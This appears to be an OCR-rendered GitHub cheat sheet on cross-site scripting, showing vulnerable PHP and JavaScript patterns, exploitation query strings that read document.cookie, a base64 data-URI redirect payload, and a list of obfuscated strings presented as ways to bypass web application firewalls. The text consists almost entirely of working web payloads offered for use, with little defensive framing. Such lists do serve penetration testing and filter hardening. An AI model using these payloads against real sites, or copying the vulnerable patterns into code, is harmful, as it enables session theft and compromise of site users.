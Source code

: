 ````
If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

### Reflected XSS in Javascript

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

### DOM-based XSS

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

### XSS via request Redirection

-   Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

-   This request will not pass through the WAF:

`/?param=<javascript:alert(document.cookie>)`

-   This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

`/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

WAF ByPass Strings for XSS.
---------------------------

-   `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
-   `<Video> <source onerror = "javascript: alert (XSS)">`
-   `<Input value = "XSS" type = text>`
-   `<applet code="javascript:confirm(document.cookie);">`
-   `<isindex x="javascript:" onmouseover="alert(XSS)">`
-   `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
-   `"><img src="x:x" onerror="alert(XSS)">`
-   `"><iframe src="javascript:alert(XSS)">`
-   `<object data="javascript:alert(XSS)">`
-   `<isindex type=image src=1 onerror=alert(XSS)>`
-   `<img src=x:alert(alt) onerror=eval(src) alt=0>`
-   `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
-   `<iframe/src="data:text/html,<svg onload=alert(1)>">`
-   `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
-   `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
-   `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
-   `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
-   `<form><a href="javascript:\u0061lert(1)">X`
````